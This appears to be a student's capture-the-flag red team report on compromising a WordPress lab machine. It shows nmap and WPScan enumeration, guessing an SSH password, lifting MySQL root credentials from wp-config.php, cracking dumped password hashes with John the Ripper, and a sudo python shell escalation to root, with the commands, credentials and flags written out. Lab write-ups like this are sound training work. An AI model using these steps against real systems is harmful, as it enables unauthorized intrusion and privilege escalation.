

# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap --script nmap-vulners -sV 192.168.1.110
```         
 
 
 
 

This scan identifies the services below as potential points of entry:
- Target 1
  - OpenSSH version 6.7p1
  - Apache httpd 2.4.10

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - Weak Passwords
  - Wordpress database password stored in plaintext
  - User account able to run python commands with sudo allowing for privilege  escalation


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`:Flag1{b9bbcb33ellb80be759c4e844862482d}
    - **Exploit Used**
      - I did a WPscan and enumerated the users, saw the user Michael and was able to get an SSH session after a few password attempts. Once I had a shell I started with by using the find command to look for flag1.txt, this came up empty. I then did the same command for flag2.txt and saw it was located in /var/www. At first I thought flag1 might be in the previous directory but there were no files, only more directories. So I went inside of the html directory located in the same folder as flag2.txt and saw a bunch of files. I started grepping through the files and was able to find flag1 in service.html
      -        wpscan --url http://192.168.1.110.com --enumerate vp,u
               ssh michael@192.168.1.110
               1st password attempted: leahcim
               2nd password attempted: password
               3rd password attempted: michael
               find / -iname flag1.txt
               find / -iname flag2.txt
               cd /var/www
               cd ..
               cd /var/www/html
               grep flag about.html
               grep flag contact.php
               grep flag elements.html
               grep flag index.html
               grep flag service.html
               

  - `flag2.txt`:Flag2{fc3fd58dcdad9ab23faca6e9a3e581c}
    - **Exploit Used**
      - I again used a WPscan to find the user Michael, guessed his password for an SSH session, and used the find command to look for flag2.txt. It was located in /var/www 
      - find / -iname flag2.txt
      
      
      

 - `flag3.txt`: Flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - After locating the wp-config.php file within /var/www/html/wordpress I was able to discover the database username and password. These were listed as root and R@v3nSecurity respectively. and the host name was localhost
      
      I then used mysql to get into the DB and started looking for flag3. I first looked for the databases available, saw one titled wordpress so went into it. Then I pulled up the tables and started looking through them all from the top down. Eventually I found flag3 inside of wp_posts
        
      - cd /var/www/html/wordpress
               nano wp-config.php
               mysql -u root -p'R@v3nSecurity' -h localhost
               show databases;
               use wordpress;
               show tables;
               select * from wp_commentmeta;
               select * from wp_comments;
               select * from wp_links;
               select * from wp_options;
               select * from wp_postmeta;
               select * from wp_posts;

  - `flag4.txt`:Flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - Since I was inside of the SQL DB I went to the wp_users table to find the password hashes for the user accounts. I copied the hashes and echoed them into a new file I called finalprojhashes.txt. I then ran John the ripper agaisnt the file and was able to find Stevens password. I then used this combo to SSH in as Steven. Once I had a shell as the Steven user I checked the sudo privileges of Steven and saw that he could run the python command as sudo. I then spent some time on google looking for ways to use python with sudo to escalate to root. I eventually found the command "python -c 'import pty;pty.spawn("/bin/bash")" which was listed as a typical PTY upgrade using python. Once I ran this command I was able to get root access, then I ran a find command to look for flag4. I found it in /root. A quick cat of the file and I was done. 
      -        select * from wp_users;
               copy Micheal's hash and then: echo 'Michael:$P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0' >> finalprojhashes.txt
               copy Steven's hash and then: echo 'Steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/' >> finalprojhashes.txt
               john finalprojhashes.txt
               ssh steven@192.168.1.110
               password: pink84
               sudo -l
               sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
               find / -iname flag4.txt
               cat /root/flag4.txt


    
    
    